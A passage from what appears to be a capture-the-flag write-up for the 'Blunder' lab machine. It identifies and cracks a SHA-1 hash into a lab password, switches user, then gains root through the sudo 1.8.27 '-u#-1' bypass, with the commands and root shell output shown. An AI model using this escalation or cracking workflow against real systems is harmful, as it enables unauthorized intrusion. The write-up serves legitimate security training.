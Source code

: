 	Most Likely
	SHA-1, HC: 100 JtR: raw-sha1 Summary: Used for checksums.
	HMAC-SHA1 (key = $salt), HC: 160 JtR: hmac-sha1
	Double SHA-1, HC: 4500
	RIPEMD-160, HC: 6000 JtR: ripemd-160
	
	Least Likely
	Haval-160 (3 rounds), HC: 6000 JtR: dynamic_190 Haval-160 (4 rounds), HC: 6000 JtR: dynamic_200 Haval-160 (5 rounds), HC: 6000 JtR: dynamic_210 Haval-192 (3
	rounds), HC: 6000 JtR: dynamic_220 Haval-192 (4 rounds), HC: 6000 JtR: dynamic_230 Haval-192 (5 rounds), HC: 6000 JtR: dynamic_240 Haval-224 (4 rounds), HC:
	6000 JtR: dynamic_260 Haval-224 (5 rounds), HC: 6000 JtR: dynamic_270 Haval-160,  Tiger-160,  HAS-160,  LinkedIn, HC: 190 JtR: raw-sha1-linkedin
	Skein-256(160),  Skein-512(160),  MangosWeb Enhanced CMS,  sha1(sha1(sha1($pass))), HC: 4600  sha1(md5($pass)), HC: 4700  sha1($pass.$salt), HC: 110
	sha1($salt.$pass), HC: 120  sha1(unicode($pass).$salt), HC: 130  sha1($salt.unicode($pass)), HC: 140  HMAC-SHA1 (key = $pass), HC: 150 JtR: hmac-sha1
	sha1($salt.$pass.$salt), HC: 4710  Cisco Type 7,  BigCrypt, JtR: bigcrypt PKZIP Master Key, HC: 20500
	```
	> `SHA-1, HC:100`
	{: .prompt-info }
6. Crackstation
	![]({{ page.img_path }}Pasted%20image%2020230109203452.png)
	> `hugo:Password120`
	{: .prompt-info }
7. Switch to user `hugo` w/ `Password120`

## Root - Sudo 1.8.27 Security Bypass 
1. Check user `hugo`'s sudo access
	```
	hugo@blunder:/var/www/bludit-3.9.2/bl-content/databases$ sudo -l
	Matching Defaults entries for hugo on blunder:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User hugo may run the following commands on blunder:
	    (ALL, !root) /bin/bash
	```
	> - `(ALL, !root) /bin/bash`
	> - I've seen this way to root machines multiple times, there is a vulnerability in sudo 1.8.27, where  sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv `-u#-1` returns as 0 which is root's id
	{: .prompt-info }
2. Rooted!
	```
	hugo@blunder:/var/www/bludit-3.9.2/bl-content/databases$ sudo -u#-1 /bin/bash
	root@blunder:/var/www/bludit-3.9.2/bl-content/databases# id;whoami
	uid=0(root) gid=1001(hugo) groups=1001(hugo)
	root
	root@blunder:/var/www/bludit-3.9.2/bl-content/databases#
	```